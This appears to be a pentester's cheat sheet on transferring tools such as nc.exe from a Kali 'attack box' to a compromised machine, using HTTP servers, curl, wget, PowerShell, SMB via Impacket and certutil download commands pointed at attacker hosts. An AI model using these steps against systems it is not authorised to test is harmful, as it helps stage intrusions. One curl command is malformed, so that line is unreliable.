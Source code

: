 # Transfering Files

Often times on an engagement I find myself needing to copy a tool or a payload from my Kali linux attack box to a compromised machine.

## HTTP
The two ways I usually serve a file over HTTP from Kali are either through Apache or through a Python HTTP server.

### Apache
To serve a file up over Apache, just simply copy it to /var/www/html and enable the Apache service. Apache is installed by default in Kali:
```
root@kali:~/shells# cp nc.exe /var/www/html
root@kali:~/shells# systemctl start apache
```

### Python
The other option is to just start a Python webserver directly inside the shells directory. This only requires a single line of Python thanks to Python’s SimpleHTTPServer module:

```
python -m SimpleHTTPServer 8080
```
```
python3 -m http.server
```
By default it serves on port 8000, but you can also specify a port number at the end.

### Downloading the files
Browser
Simply browse to http://YOUR-KALI-IP/nc.exe and use the browser to download the file.

#### Command line

#### Linux

##### cUrl
```
curl https//YOUR-KALI-IP/nc.exe -o nc.exe
```
##### wget
```
wget -O nc.exe http://YOUR-KALI-IP/nc.exe
```

#### Windows 
##### Powershell
```
(new-object System.Net.WebClient).DownloadFile('http://YOUR-KALI-IP/nc.exe','C:\Users\<user>\Desktop\nc.exe')
```
##### CMD
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOUR-KALI-IP/nc.exe','C:\Users\<user>\Desktop\nc.exe')"
```

## SMB

### Setting up the server
Quick and dirty

Enter smbserver.py, part of the Impacket project,the python script takes care of all the configurations for you, binds to 445, and accepts any authentication. It will even print out the hashed challenge responses for any system that connects to it.
`cd` to `/opt/impacket/examples`
```
python smbserver.py ROPNOP /root/shells
```
In one line we’ve got an SMB share up and running. You can confirm it with smbclient from Linux:
```
smbclient -L <kali-ip> --no-pass
```
Windows:
```
net view \\<kali-ip>
```

#### Copying Files
Putting files using smbclient once you connect to it using `smbclient -L <kali-ip> --no-pass`
```
put nc.exe 
```
Getting files
Linux
```
get nc.exe .
```
On windows
```
dir \\<kali-ip>\ROPNOP
copy \\<kali-ip>\ROPNOP\nc.exe .
```



# Windows
```
certutil.exe -urlcache -f http://10.0.2.4/Wise.exe Wise.exe
```